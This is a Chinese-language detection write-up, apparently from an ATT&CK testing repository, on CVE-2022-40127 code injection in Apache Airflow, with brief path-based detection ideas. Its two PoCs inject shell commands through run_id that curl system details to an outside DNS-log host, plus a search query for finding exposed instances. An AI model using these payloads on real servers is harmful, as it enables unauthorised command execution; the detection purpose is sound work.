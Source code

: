 # T1190-CVE-2022-40127 Apache Airflow代码注入

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

Apache Airflow是一个可编程，调度和监控的工作流平台，基于有向无环图(DAG)，Airflow可以定义一组有依赖的任务，按照依赖依次执行。该漏洞影响版本Apache Airflow <2.4.0；当攻击者可访问到Apache Airflow的后台，且环境中存在默认Example Dags，则可构造恶意请求借助run_id执行任意命令。

### EXP/POC

请勿用做非法用途，仅用于流量分析检测。

网络空间测绘查询：title="Airflow"

#### POC-1

```yml
{"fxoxx":"\";curl `uname`.lxx2.535ld4zn.dnslog.pw;\""}
```

![poc1](https://user-images.githubusercontent.com/18260135/202715494-4ca2fd4f-384e-40aa-ae7b-02ca51defa4f.png)

![poc_1](https://user-images.githubusercontent.com/18260135/202846433-4a4a40fa-675e-477b-a9c4-be2f6c894583.png)

#### POC-2

```bash
curl -X 'POST' \
  'http://10.11.12.131:8080/api/v1/dags/example_bash_operator/dagRuns' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
    "conf": {
"dag_run": "api2"
},
  "dag_run_id": "id \"&& curl `whoami`.api222.535ld4zn.dnslog.pw",
  "logical_date": "2022-11-19T10:13:13.920Z"

}'
```

![POC-2](https://user-images.githubusercontent.com/18260135/202846307-165943c3-dd8e-4d92-aae8-72516fc00f82.png)

![Poc2](https://user-images.githubusercontent.com/18260135/202846350-ca6d0770-8143-4da8-8ac5-1596f365cff9.png)

![pOc2](https://user-images.githubusercontent.com/18260135/202846365-e4d0b467-7e06-4112-899b-14245dc17b5f.png)

![poc2](https://user-images.githubusercontent.com/18260135/202846417-9d359d5a-cc6f-4be2-8003-cfefd3d488f4.png)

## 检测日志

HTTP.log

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

分析思路：

- 请求路径中是否含有"/airflow/"
- 请求路径是否为"/api/v1/dags/example_bash_operator/dagRuns"

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2022-40127

<https://github.com/Mr-xn/CVE-2022-40127>

Apache Airflow（CVE-2022-40127）漏洞复现

<https://www.freebuf.com/articles/web/350696.html>
